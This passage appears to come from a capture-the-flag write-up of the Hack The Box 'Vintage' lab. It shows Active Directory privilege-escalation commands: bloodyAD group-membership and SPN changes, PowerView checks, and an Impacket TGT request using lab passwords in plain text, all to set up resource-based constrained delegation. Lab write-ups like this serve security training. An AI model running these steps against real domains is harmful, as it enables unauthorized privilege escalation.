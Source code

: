 ### bloodyAD

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS
```

we can verify with powerview

```bash
(LDAP)-[dc01.vintage.htb]-[VINTAGE\C.Neri_adm]
PV > Get-DomainGroupMember -Identity DELEGATEDADMINS
GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : svc_sql
MemberDistinguishedName     : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1134

GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : C.Neri_adm
MemberDistinguishedName     : CN=C.Neri_adm,CN=Users,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1140

GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : L.Bianchi_adm
MemberDistinguishedName     : CN=L.Bianchi_adm,CN=Users,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1141
```

Noice lets do this shit.

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake" 
[+] SVC_SQL's servicePrincipalName has been updated
```

now we can do RBCD. First we have to refrest svc_sql ccache

```bash
➜  Vintage getTGT.py vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb                                                       
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

nice lets grab member of admin 
